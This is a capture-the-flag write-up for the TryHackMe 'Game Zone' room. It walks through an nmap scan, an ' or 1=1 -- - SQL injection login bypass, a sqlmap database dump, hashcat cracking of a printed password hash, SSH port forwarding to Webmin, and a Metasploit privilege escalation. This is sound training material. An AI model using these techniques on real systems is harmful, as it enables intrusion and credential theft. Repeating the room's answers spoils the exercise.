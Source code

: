 # Game Zone

This is my write-up for the TryHackMe machine at: [https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone).

### Deploy the vulnerable machine

The hint for the first question is **Reverse Image Search**. I then posted the picture in `Yandex.com` and got the following:

![](../../.gitbook/assets/image%20%28279%29.png)

I then clicked on an image and it led me to a title: **Hitman Absolution**. I then Google-d the character name, and got the answer:

![](../../.gitbook/assets/image%20%28290%29.png)

> What is the name of the large cartoon avatar holding a sniper on the forum? Agent 47

### Obtain access via SQLi

 I then ran an **nmap** scan:

```c
nmap -T4 -A 10.10.72.202 -oN nmap_scan.txt
```

I got the following output:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 16:30 EDT
Nmap scan report for 10.10.72.202
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.05 seconds

```

I noticed that there were only 2 ports open: 22 and 80. I went on port 80 to see what the website is:

![](../../.gitbook/assets/image%20%28278%29.png)

After entering in **' or 1=1 -- -** in the username portion and left the password field empty \(based on the recommendations of the THM room creator\). I was in then:

![](../../.gitbook/assets/image%20%28282%29.png)

> When you've logged in, what page do you get redirected to? **portal.php**

### **Using SQLMap**

For this one, we have to intercept the request to get the format for the SQLMap usage later. I turned on **Burpsuite**, and then got the request:

![](../../.gitbook/assets/image%20%28286%29.png)

I then saved this to a file:

![](../../.gitbook/assets/image%20%28277%29.png)

I then ran the command the room recommended:

```c
sqlmap -r sqlmap_output.txt --dbms=mysql --dump
```

I then got the following output:

![](../../.gitbook/assets/image%20%28291%29.png)

> In the users table, what is the hashed password?  **ab**\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
>
> What was the username associated with the hashed password? **agent47**
>
> What was the other table name? **post**

### Cracking a password with JohnTheRipper

For this one, I went with Hashcat, just because I am more comfortable with hashcat. I ran the following command:

```c
hashcat -m 1400 ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 rockyou.txt
```

The rockyou.txt file is default in Kali, and it is located at /usr/share/wordlist. I copied it to the local directory, ran **gunzip** on it, and got the file. As for the hashcat hash crack run, I got the following output:

![](../../.gitbook/assets/image%20%28276%29.png)

> What is the de-hashed password? **vi\*\*\*\*\*\*\*\*\*\***

I ran `ssh agent47@10.10.72.202` and used the password I had received before, and got into the machine:

![](../../.gitbook/assets/image%20%28281%29.png)

I then got the user.txt flag:

![](../../.gitbook/assets/image%20%28288%29.png)

> What is the user flag? **649\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\***

### **Exposing serviced with reverse SSH tunnels**

> How many TCP sockets are running? **5**

I then ran the following command, based on the recomendation from the machine:

```c
ssh -L 10000:localhost:10000 agent47@10.10.72.202
```

I then posted the password that I had gotten previously into the password for the SSH, and got in again:

![](../../.gitbook/assets/image%20%28285%29.png)

This time, we have the webapp running on our localhost:

![](../../.gitbook/assets/image%20%28287%29.png)

> What is the name of the exposed CMS? **Webmin**

The login credentials for the webapp were the same credentials from previously, this leads to this site:

![](../../.gitbook/assets/image%20%28280%29.png)

> What is the CMS version? **1.580**

### Privilege Escalation with Metasploit

I searched on msfconsole for an exploit:

![](../../.gitbook/assets/image%20%28292%29.png)

I then started filling in options, and ended up with this:

![](../../.gitbook/assets/image%20%28284%29.png)

I realized that the RHOST was supposed to be set to 127.0.0.1, based on [this writeup](https://www.aldeid.com/wiki/TryHackMe-Game-Zone#.5BTask_6.5D_Privilege_Escalation_with_Metasploit). When I changed that option in msfconsole, I was then able to get the exploit to work. I then got the flag:

![](../../.gitbook/assets/image%20%28275%29.png)

> What is the root flag? **a4\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\***





